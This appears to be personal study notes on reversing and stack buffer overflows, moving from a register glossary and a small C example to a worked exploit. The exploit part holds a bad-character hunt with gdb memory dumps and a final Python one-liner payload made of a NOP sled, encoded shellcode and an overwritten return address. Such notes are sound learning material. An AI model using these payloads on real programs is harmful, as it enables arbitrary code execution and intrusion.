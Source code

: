 # Reversing

## Terminologies

- rbp => base pointer
- rsp => stack pointer
- rax => acumulador
- rdx => General register or to pass arguments.
- rcx => contador (used in loops).
- rsi => second variable
- rdi => first variable
- eip => next instruction to be executed
- eax => variable global usada en CPU architectures
- rbx => base
- rip => instruction pointer (actual instruction that is executing)
- lea => Load Effective address

## Keywords.

  - Breakpoint:

## Reversing samples

```gcc
int f(){
  return 5;
}

void hackthur(){
  printf("hello I'm Hackthur\n");
}

int main(){
  f();
  hackthur();
}
```


After the file creation, we need to check in gdb, what's going on in the binary in the execution




buffer = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" => 256

```bash

$(python -c 'print "\x55" * (1040 - 256 -4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66"*4')
```

bad_characters = "\x00\x09\x0a\x20"
As the last "\x55" ends, this should be start with "\x00" that is a bad character
In the other observation

```bash
0xffffd5f0:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5f8:     0x01    0x02    0x03    0x04    0x05    0x06    0x07    0x08
0xffffd600:     0x00    0x0b    0x0c    0x0d    0x0e    0x0f    0x10    0x11
0xffffd608:     0x12    0x13    0x14    0x15    0x16    0x17    0x18    0x19
```

Neither follow after \x08 is missing the \x09, so \x09 is another bad character

In the next line

```bash
0xffffd5da:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5e2:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5ea:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd5f2:     0x55    0x55    0x55    0x55    0x55    0x55    0x01    0x02
0xffffd5fa:     0x03    0x04    0x05    0x06    0x07    0x08    0x00    0x0b
0xffffd602:     0x0c    0x0d    0x0e    0x0f    0x10    0x11    0x12    0x13
```

\x0a is missing and in the next line \x20





$(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xb8\x37\x03\x2b\x9d\xda\xc7\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x42\x0e\x03\x75\x0d\xc9\x68\x48\xca\xfa\x70\xf9\xaf\x57\x1d\xff\xa6\xb9\x51\x99\x75\xb9\x01\x3c\x36\x85\xe8\x3e\x7f\x83\x0b\x56\xff\x73\xec\xa7\x97\x71\xec\xdd\x0e\xff\x0d\x91\xb7\xaf\x9c\x82\x84\x53\x96\xc5\x26\xd3\xfa\x6d\xd7\xfb\x89\x05\x4f\x2b\x41\xb7\xe6\xba\x7e\x65\xaa\x35\x61\x39\x47\x8b\xe2"+ "\x4c\xd6\xff\xff")